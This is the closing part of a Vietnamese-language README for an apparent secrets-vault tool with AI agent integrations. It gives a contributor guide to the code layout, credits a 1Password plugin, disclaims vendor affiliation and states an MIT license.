Xem [CONTRIBUTING.md](../CONTRIBUTING.md). Core trung lập với runtime nằm ở `src/core.ts` (định dạng file của
vault cục bộ ở `src/vault.ts`, giao thức của các source ở `src/sources.ts`); tích hợp agent
nằm ở `extensions/`, `src/mcp.ts` và `src/hooks.ts`.

## Ghi công

Lấy cảm hứng từ [@jmcombs/pi-1password](https://www.npmjs.com/package/@jmcombs/pi-1password): UI popup
và hình thức chẩn đoán của nó được port sang đây (MIT). Output được che theo `op run` của 1Password. Không
liên kết với Anthropic, Bitwarden, Inc., dự án Vaultwarden hay bất kỳ nhà cung cấp nào được nêu ở đây;
"Bitwarden" là thương hiệu của Bitwarden, Inc.

## Giấy phép

[MIT](../LICENSE) © 2026 dinhkarate
